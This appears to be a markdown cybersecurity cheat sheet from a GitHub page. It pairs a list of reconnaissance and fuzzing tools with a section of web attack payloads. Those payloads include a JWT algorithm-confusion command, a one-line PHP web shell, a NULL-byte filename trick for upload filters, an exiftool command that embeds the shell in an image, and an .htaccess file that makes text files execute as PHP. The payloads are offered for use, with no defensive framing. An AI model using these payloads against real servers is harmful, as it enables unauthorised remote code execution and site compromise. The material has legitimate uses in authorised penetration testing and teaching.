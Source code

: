 # Cybersecurity

## Vulnerabilities

### JWT Algorithm Confusion

Re-sign JWT with symmetric algorithm using public key from original signature.

`python jwt/jwt_tool.py <JWT> -X k -pk ./pub.pem --bare` ([JWT_Tool](https://github.com/ticarpi/jwt_tool))

### Insecure Upload

Upload executable file and run it via upload form (ex. PHP).

- `<?php echo system($_GET['cmd']); ?>`
- [b374k shell](https://github.com/b374k/b374k)

#### NULL-byte

Insert NULL-byte into filename so OS & form validation may not recognize actual extension of the file.

`exec.php%00.png`

#### Code Injection

Inject code (ex. PHP) into a valid image file.

`exiftool -Comment="<?php echo system($_GET['cmd']); ?>" exec.jpg` ([exiftool](https://github.com/exiftool/exiftool))

#### Apache .htaccess

Upload Apache configuration file (.htaccess) which allows to execute arbitrary files.

```
<Files ~ "^\.ht">
Require all granted
Order allow,deny
Allow from all
</Files>

AddType application/x-httpd-php .htaccess .txt
```

## Tools

### Subdomains Enumeration

- [Subfinder](https://github.com/projectdiscovery/subfinder)
- [Sublist3r](https://github.com/aboul3la/Sublist3r)
- [Amass](https://github.com/owasp-amass/amass)

### HTTP Probing (alive)

- [httpX](https://github.com/projectdiscovery/httpx)
- [httprobe](https://github.com/tomnomnom/httprobe)

### Screen Capture

- [EyeWitness](https://github.com/RedSiege/EyeWitness)
- [gowitness](https://github.com/sensepost/gowitness)

### Directories/Files Fuzzing

- [ffuf](https://github.com/ffuf/ffuf)
- [Dirsearch](https://github.com/maurosoria/dirsearch)

### Wordlists

- [SecLists](https://github.com/danielmiessler/SecLists)

### Injection Automation

- [sqlmap](https://github.com/sqlmapproject/sqlmap)
- [b374k shell](https://github.com/b374k/b374k)

### Other

- [nuclei](https://github.com/projectdiscovery/nuclei)
- [gau](https://github.com/lc/gau)
- [gf](https://github.com/tomnomnom/gf)
